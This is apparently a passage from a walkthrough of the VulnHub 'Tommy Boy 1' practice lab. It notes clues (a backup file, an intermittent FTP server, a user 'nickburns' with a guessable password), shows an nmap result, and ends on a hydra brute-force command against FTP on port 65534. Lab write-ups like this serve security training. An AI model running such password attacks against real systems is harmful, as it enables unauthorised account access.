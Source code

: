 	![](images/Pasted%20image%2020220118161803.png)
	- Useful Information 
		- A backup file called `callahanbak.bak`
		(FTP) Server that goes online for 15 minutes then down for 15 minutes
		- A user called `nickburns` whose password is easy to guess
16. Do an NMAP Scan again
	```
	PORT      STATE SERVICE
	22/tcp    open  ssh
	80/tcp    open  http
	8008/tcp  open  http
	65534/tcp open  unknown
	```
	- 65534 wasn't up in the initial scan, it is likely the FTP Server
17. Bruteforce
	```
	┌──(root💀kali)-[~/vulnHub/TommyBoy1/192.168.56.129/exploit/bruteforce]
	└─# hydra -l nickburns -P /usr/share/wordlists/SecLists/Passwords/Common-Credentials/top-20-common-SSH-passwords.txt ftp://$ip -s 65534 -e nsr 